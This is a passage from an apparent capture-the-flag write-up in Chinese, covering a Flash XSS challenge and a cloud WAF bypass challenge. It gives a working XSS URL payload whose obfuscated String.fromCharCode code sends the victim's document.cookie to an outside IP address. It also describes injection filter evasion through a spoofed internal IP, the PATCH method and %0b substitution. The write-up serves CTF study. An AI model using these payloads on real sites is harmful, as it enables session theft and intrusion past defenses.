(2)如果在%后面出现一个有效和一个非有效十六进制字符，就会丢弃三个字符，比如：

```
"%AX" or "%A&"

```

这样处理后就能 bypass 那个 delete 了，因为在 for 里时把 %X 带上了，最后在 call 的时候 flash 会丢弃这个

然后在用这篇文章里的方法

```
http://drops.wooyun.org/tips/2924

```

带上

```
alert(1))}catch(e){alert(100)}//

```

当然直接用弹不出来（血的教训，卡了好久，审查元素看了下发现语句不一样＝。＝ 所以最后可以这样弹

```
%Xdebug=\%22));alert(1);}catch(e){alert(100)}//

```

最后 payload 如下

```
http://8dd25e24b4f65229.alictf.com/swf.swf?%Xdebug=\%22));eval(String.fromCharCode(101,118,97,108,40,34,118,97,114,32,120,61,110,101,119,32,73,109,97,103,101,40,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,52,53,46,53,53,46,49,51,53,46,49,51,57,47,120,46,112,104,112,63,99,111,111,107,105,101,61,39,43,101,115,99,97,112,101,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,34,41));}catch(e){alert(100)}//

```

0x06 渗透绕过WAF2
=====

绕过云WAF2 题目显示说不在内网，所以第一步就是先设置一个内网 ip 咯 接下来看 writeup

提示需要内部访问，于是 fuzz IP：

*   192.168.x.x
*   10.x.x.x
*   172.16.x.x

发现 10 开头的 IP 可以访问。通过更改 HTTP 请求方法为 PATCH 可以让防护等级为中。  
更改关键字，如`%20`改为`%0b`等绕过检测，注入得到 flag。

![enter image description here](http://drops.javaweb.org/uploads/images/c05ab9739901328761ff1f28ec7e255e6903dd13.jpg)

0x07 谁偷了你的站内短信
=====

谁偷了你的站内短信 一题 binary 题
